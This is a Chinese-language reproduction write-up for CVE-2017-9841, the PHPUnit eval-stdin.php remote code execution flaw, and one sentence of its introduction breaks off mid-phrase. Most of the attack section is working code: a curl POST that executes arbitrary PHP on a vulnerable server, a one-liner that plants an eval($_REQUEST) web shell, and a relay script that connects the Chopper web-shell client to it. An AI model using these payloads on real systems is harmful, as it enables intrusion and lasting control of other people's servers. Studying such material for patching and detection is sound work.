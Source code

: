 （CVE-2017-9841）PHPunit 远程代码执行漏洞
=========================================

一、漏洞简介
------------

TYPO3是瑞士TYPO3协会维护的一套免费开源的内容管理系统。PHPUnit是其中的一个基于PHP的测试框架。PHPUnit4.8.28之前的版本和5.6.3之前的5.x版本中的Util/PHP/eval-stdin.php文件存在安全漏洞。远程攻击者可通过发送以'

二、漏洞影响
------------

PHPUnit 4.8.19-4.8.27PHPUnit 5.0.10-5.6.2

三、复现过程
------------

    $ curl --data "<?php echo(pi());" http://www.0-sec.org:8888/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

总体来说就是向**vendor/phpunit/src/Util/PHP/eval-stdin.php**发送POST请求执行php代码。![1.png](./.resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId24.png)![2.png](./.resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId25.png)也可以直接写入一句话\*\*\<?=file\_put\_contents(\"1.php\",
\'\<?=eval(\$\_REQUEST\[1\]);?\>\');\*\*![3.png](./.resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId26.png)![4.png](./.resource/(CVE-2017-9841)PHPunit远程代码执行漏洞/media/rId27.png)

### poc

> 因为直接是RCE，如果当前目录可写，直接POST这样的body:

**菜刀中转脚本**

> 使用20160622版本的菜刀，可以直接连目标，可以执行命令，但是不可以上传修改文件。

    <?php
    $webshell="";
    $data = file_get_contents("php://input");
    $data=substr($data,1);
    $data=str_replace("%2F",'/',$data);
    $data=str_replace("%2B",'+',$data);
    $data=str_replace("%3D",'=',$data);
    $data= "<?php ". $data;
    echo $data;

    $opts = array (
    'http' => array (
    'method' => 'POST',
    'header'=> "Content-type: application/x-www-form-urlencoded\r\n" .
    "Content-Length: " . strlen($data) . "\r\n",
    'content' => $data)
    );

    $context = stream_context_create($opts);
    $html = @file_get_contents($webshell, false, $context);
    echo $html;
    ?>
